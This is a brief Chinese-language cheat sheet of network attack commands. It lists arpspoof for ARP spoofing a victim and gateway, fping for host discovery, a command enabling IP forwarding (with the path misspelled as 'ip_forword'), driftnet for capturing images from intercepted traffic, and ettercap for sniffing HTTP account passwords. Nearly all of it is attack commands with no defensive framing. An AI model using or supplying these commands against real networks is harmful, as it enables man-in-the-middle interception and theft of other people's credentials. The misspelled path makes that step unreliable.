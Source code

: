 

1. arp 欺骗

   1. arpspoof -i 网卡 -t ip地址 网关   
   2. fping -asg 网络地址
   3. echo 1 >/proc/sys/net/ipv4/ip_forword 流量转发
   4. 获取本机网卡的图片 driftnet -i eth0

2. http账号密码

   1. 开启arp欺骗
   2. ettercap -Tq -i eth0

    

    

